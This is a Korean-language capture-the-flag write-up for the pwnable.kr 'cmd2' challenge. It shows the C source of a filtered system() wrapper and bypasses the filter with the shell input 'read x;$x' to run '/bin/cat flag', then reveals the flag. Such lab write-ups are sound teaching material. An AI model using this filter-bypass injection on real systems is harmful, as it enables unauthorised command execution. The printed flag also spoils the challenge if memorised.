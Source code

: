# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-04-16-31-49.png)


# **Write-Up**

소스는 다음과 같다.

```cpp
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}
```

PATH 환경변수를 바꾸고, "/"도 필터링 하기 때문에 절대경로를 argv[1]에 입력할 수 없다. 이때, read 함수를 통해 우회한다. read와 인자(x)를 넘겨주면 이후에 입력하는 값(hello)이 인자(x)에 저장되고, $를 붙혀서 인자(x)를 명령어 형태로 실행시킨다.

```sh
cmd2@pwnable:~$ read x
hello
cmd2@pwnable:~$ $x
The program 'hello' can be found in the following packages:
 * hello
 * hello-traditional
Ask your administrator to install one of them
```

다음과 같이 FLAG를 획득할 수 있다.

```sh
cmd2@pwnable:~$ unset x
cmd2@pwnable:~$ ./cmd2 'read x;$x'
read x;$x
/bin/cat flag
FuN_w1th_5h3ll_v4riabl3s_haha
```


# **FLAG**

**FuN_w1th_5h3ll_v4riabl3s_haha**